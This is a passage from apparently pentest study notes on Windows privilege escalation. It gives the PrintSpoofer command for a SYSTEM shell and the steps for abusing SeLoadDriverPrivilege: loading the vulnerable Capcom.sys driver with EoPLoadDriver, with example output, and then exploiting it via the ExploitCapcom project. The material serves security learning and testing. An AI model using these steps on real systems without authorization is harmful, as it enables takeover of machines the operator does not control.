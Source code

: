 

#### PrintSpoofer

One way to gain system user on latest Operative System such as **Windows10 or Server 2016/2019**, is using the printspoofer exploit. [Donwload the latest release](https://github.com/itm4n/PrintSpoofer) and execute it on the target machine to gain privs.

```text
PrintSpoofer64.exe -i -c cmd
```

### SeLoadDriverPrivilege

We are able to load a driver, so we can load a vulnerable driver, then exploit it.

#### Load Capcom.sys

To load the driver we need first to create a **C++ Console APP on Visual Studio** \(Not Code!\) and paste the following script.

{% hint style="warning" %}
**Alert:** Remove line: \#include "stdafx.h"
{% endhint %}

{% embed url="https://raw.githubusercontent.com/TarlogicSecurity/EoPLoadDriver/master/eoploaddriver.cpp" %}

![EoPLoadDriver.cpp](../.gitbook/assets/eoploaddriver.png)

Once compiled With **Release x64** we need to download Capcom.sys driver. \([https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys)\)

Copy the driver and the binary to the target machine and execute it.

```text
.\EoPLoadDriver.exe System\CurrentControlSet\dfserv C:\ProgramData\Capcom.sys
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-2633719317-1471316042-3957863514-1104\System\CurrentControlSet\dfserv
NTSTATUS: 00000000, WinError: 0
```

{% hint style="info" %}
**NTSTATUS** codes:

0xC000003B   - `STATUS_OBJECT_PATH_SYNTAX_BAD`

0x00000034   - `STATUS_OBJECT_NAME_NOT_FOUND`
{% endhint %}

#### Exploiting Capcom.sys

I modified the following project: [https://github.com/tandasat/ExploitCapcom](https://github.com/tandasat/ExploitCapcom). Download the project and open the  `ExploitCapcom.sln` \(Visual Studio Project\) with Visual Studio.
